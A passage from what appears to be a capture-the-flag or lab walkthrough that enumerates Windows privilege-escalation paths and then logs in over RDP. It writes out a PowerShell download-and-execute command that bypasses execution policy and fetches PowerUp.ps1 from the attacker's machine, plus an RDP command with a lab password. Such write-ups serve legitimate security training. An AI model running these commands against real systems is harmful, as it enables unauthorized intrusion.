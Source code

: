 ```
wget https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1
python2 -m SimpleHTTPServer 81
```

Add the following line at the bottom to PowerUp.ps1 so it Invokes all checks automatically once downloaded

**PowerUp.ps1**

```
Invoke-AllChecks
```

**Victim(powershell)**

<pre><code>powershell -ep bypass
<strong>iex​(New-Object Net.WebClient).DownloadString('http://$KALI:81/PowerUp.ps1') 
</strong></code></pre>





## Shell

After a lot of time wasted I realized there was no where to write files to and this account was a dead end. Then tried to RDP in as wade since we had a potential password for him.

**Kali**

```
xfreerdp +clipboard /u:"wade" /v:$VICTIM:3389 /size:1024x568 /smart-sizing:800x1200
Password: parzival
```

<figure><img src="../../.gitbook/assets/image (72) (2).png" alt=""><figcaption></figcaption></figure>
